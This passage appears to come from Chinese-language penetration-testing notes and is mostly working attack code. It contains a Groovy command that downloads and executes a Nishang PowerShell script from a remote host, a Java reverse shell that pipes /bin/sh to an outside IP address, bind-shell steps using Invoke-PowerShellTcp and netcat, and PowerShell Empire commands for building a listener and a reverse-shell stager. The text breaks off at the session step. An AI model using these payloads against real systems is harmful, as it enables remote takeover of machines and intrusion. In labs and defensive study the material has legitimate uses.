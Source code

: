 ```
def proc = "powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.3/nishang.ps1')".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());

Linux：
String host="83.229.122.49";
int port=8888;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

正向shell：

```
和上一步的却别在于，修改最后一行为：
Invoke-PowerShellTcp -Bind -Port 1521

然后正向去连接：
nc -nv 10.10.10.125 1521 
```

# PowerShell Empire

该工具作为msf禁用情况下的代替工具，核心还是代替EXE，存疑，建议别用

```
开启服务：
sudo powershell-empire server

启动客户端：
sudo powershell-empire client


进入监听：
listeners
uselistener http

使用options查看设置详情：

设置监听详情：
set Name yesir
set Host 10.10.16.5
set Port 1336
execute

输入help查看帮助：

生成木马：
usestager windows_reverseshell
set Listener yesir
set LocalHost 10.10.16.5
set LocalPort 1336
execute

查看会话：
agents

进入会话：
```